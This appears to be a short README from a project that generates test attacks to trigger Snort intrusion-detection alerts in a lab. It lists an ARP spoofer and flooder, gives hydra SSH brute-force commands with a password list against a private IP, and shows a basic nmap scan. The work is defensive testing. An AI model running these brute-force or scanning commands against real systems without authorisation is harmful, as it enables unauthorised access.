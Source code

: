 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **Arp-Spoofer**: 

 - **flooder.py**: 
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
